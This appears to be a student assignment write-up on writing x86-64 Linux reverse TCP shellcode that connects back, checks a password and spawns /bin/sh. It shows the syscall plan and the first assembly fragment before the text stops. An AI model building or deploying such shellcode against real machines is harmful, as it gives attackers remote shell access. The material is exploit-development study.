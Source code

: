 ## Shell_Reverse_TCP
---
---
### Introduction
---
Requirement is to create a Shell_Bind_TCP shellcode that: 

- Conects back to a IP and PORT 
- Requires a password 
- If the password is correct, then Exec Shell is executed 
- NULL bytes (`0x00`) must be removed from the shellcode 

To build the shellcode, linux sockets are required to implement the following steps: 

1. Create a socket 
2. Reverse connect 
3. Ask, read, and validate the password 
4. Duplicate SDTIN, STDOUT and STDERR to the socket 
5. Execute /bin/sh  

As in the previous assignment, the program will exit with a Segmentation Fault if the password is incorrect.

For Linux Sockets Programming, the following System calls are required on this assignment:
```c
int socket(int domain, int type, int protocol); 
int connect(sock, (struct sockaddr *)&server, sockaddr_len);
int close(int sockfd); 
```
To duplicate the standard input, output and error, `sys_dup2` call will be used:

```c
int dup2(int oldfd, int newfd); 
```
And to execute `/bin/sh`, will use `sys_execve`:
```c
int execve(const char *filename, char *const argv[],  char *const envp[]);
```
### ASM Implementation
---

Will explain how we implement each step mentioned before into ASM code, with the idea to make the code easy to understand. As in the previous assignment, no enphasys has been put into removing NULLs and make the shellcode small (this is done later). This time, implementation will be easier than the previous assignment as the number of syscalls is reduced for being a reverse shell.

#### Create Socket
```asm
; sock = socket(AF_INET, SOCK_STREAM, 0) 
mov rax, 41                     ; syscall number 
mov rdi, AF_INET                ; IPv4 
mov rsi, SOCK_STREAM            ; TCP connection 
mov rdx, 0                      ; IP Protocol 
syscall 

; Save the socket_id value in RDI for future use 
mov rdi, rax                    ; value returned in RAX by syscall 
```
Opens the socket. To execute the `sys_socket` call, the arguments will have to be placed in the corresponding registers: 
